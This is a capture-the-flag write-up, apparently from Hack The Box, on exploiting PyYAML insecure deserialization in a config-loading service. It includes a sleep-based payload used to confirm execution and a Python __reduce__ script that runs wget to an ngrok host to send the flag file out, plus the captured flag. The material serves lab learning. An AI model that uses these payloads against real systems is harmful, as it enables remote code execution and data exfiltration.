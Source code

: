 When we connect to this service we have a system that allows us to create a config and load a config.

![image](https://user-images.githubusercontent.com/80063008/227539600-3c19ff02-4213-4c1d-9c75-b9d48dfad460.png)

Creating a config gives us some serialized Base64 encoded data.

Decoding the data, we notice it is python serialized data.

![image](https://user-images.githubusercontent.com/80063008/227539798-c86c3c60-8531-4827-9d0a-fedd78e6ceb3.png)

Some research online reveals this is pyyaml serialization. We can find some payloads to test here:
https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#summary

Starting slowly with a sleep command:

```python
!!python/object/apply:time.sleep [10]
```
We Base64 encode and send it as input to the `Load Config` option and the server hangs for 10 seconds confirming we have command execution.

I then used this script to exfiltrate the flag:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import os
import base64

class Payload(object):
    def __reduce__(self):
        return (os.system,('wget https://e7f1-86-121-46-6.eu.ngrok.io/`cat flag.txt`',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(base64.b64encode(deserialized_data.encode()).decode())
```

This creates the Base64 encoded data I need to send. Once I do, I get the flag in my python listener:

![image](https://user-images.githubusercontent.com/80063008/227540727-2217b1ae-01cf-47fe-957a-5fcf10a71b6c.png)

HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
